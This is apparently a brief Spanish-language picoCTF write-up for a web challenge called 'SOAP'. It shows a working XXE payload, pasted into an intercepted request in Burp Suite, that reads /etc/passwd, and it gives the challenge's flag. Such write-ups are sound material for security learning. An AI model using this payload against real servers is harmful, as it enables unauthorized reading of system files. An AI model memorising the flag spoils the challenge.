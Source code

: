 
## Reto
SOAP

## Descripcion
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Solucion
- al abrir el link solo aparece una pagina con 3 botones cada uno con envia una respuesta diferente
- Abro foxyproxy y burpsuite para ver las respuestas que me da
- una que entro a burpsuite y detengo el trafico lo mando al repeater y en Request pego lo siguiente:
```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]> <data>
	<ID>
		&xxe;
	</ID>
</data>
```

- al enviarlo al servidor me regresa la respuesta donde encuentro la bandera:**picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}**
![[Screenshot_2025-09-29_16_22_19.png]]
## Notas
- la verdad que no entendi que estamos haciendo en este desafio

## Referencias
